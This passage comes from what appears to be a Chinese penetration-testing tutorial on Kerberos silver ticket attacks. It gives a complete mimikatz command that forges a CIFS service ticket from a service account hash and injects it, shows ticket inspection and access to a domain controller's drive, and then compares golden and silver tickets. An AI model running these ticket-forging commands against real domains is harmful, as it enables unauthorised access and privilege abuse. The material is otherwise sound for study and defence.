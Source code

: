 （2）进行白银票据攻击

```
kerberos::golden /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /target:WIN2008.xie.com /service:cifs /rc4:290c699798b47b809500b3bbd4ed3e2f /user:administrator /ptt
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4QzD89xVrSfaE2iciaSj437lpA3u58yiaAEMweVI0KRqVjmVkOA2JXjJVg/640?wx_fmt=png)

(3) 查看系统中的票据

```
klist
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4UbsMBTy7JZ5jAicqW2POs6fc1ouKaf9TFgm9VCJXb2m4nS9ZbYHf5Dg/640?wx_fmt=png)

(4) 访问域控的 C 盘

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4bxuddzickiam2KMN7EopTBrDlU94UtWyT6YPZma2M86sTQIo08lWhHdQ/640?wx_fmt=png)

**黄金票据和白银票据的不同**  

访问权限不同：

*   黄金票据 Golden Ticket：伪造 TGT，可以获取任何 Kerberos 服务权限
    
*   白银票据 Silver Ticket：伪造 TGS，只能访问指定的服务
    

加密方式不同：

*   Golden Ticket 由 krbtgt 的 Hash 加密
    
*   Silver Ticket 由服务账号（通常为计算机账户）Hash 加密
    
*   认证流程不同：
    
*   Golden Ticket 的利用过程需要访问域控，
    
*   而 Silver Ticket 不需要
    

隐蔽性不同：

*   白银票据依赖于服务账号的密码散列值，而黄金票据需要利用 krbtgt 账号的密码散列值，因此白银票据更隐蔽
    

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFiaJeGjd04dibz7iah6JTVeLsicT9kVuXfNXdqGhfhvhCZicafopwTts4dZoF9icPAFJh9RQ9omsbplQLTA/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MjM5NDY1OTA1NQ==&mid=2650791647&idx=1&sn=400183ea5bea0a3156a2b3a016a0f4d7&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFjGibCQezQKY4NzE1WGn6FBCbq3pQVl0oONnYXT354mlVw0edib6X6flYib9JRTic4DTibgib15WZC7sDUA/640?wx_fmt=png)

[**内网渗透（九） | Windows 域的管理**](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490197&idx=1&sn=4682065ddcab00b584918bc267e33f53&chksm=fc781e48cb0f975eddc44d77698fbb466d0eac7d745a6e5bbaf131560b3d4f9e22c1a359d241&scene=21#wechat_redirect)  

[**内网渗透（八） | 内网转发工具的使用**](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490042&idx=1&sn=136d4057044a7d6f6cb5b57d20f7954a&chksm=fc781d27cb0f9431ec590662ab4e6bcd31b303e7caa20a2b116fd9a9b97e9e3be0bc34408490&scene=21#wechat_redirect)  
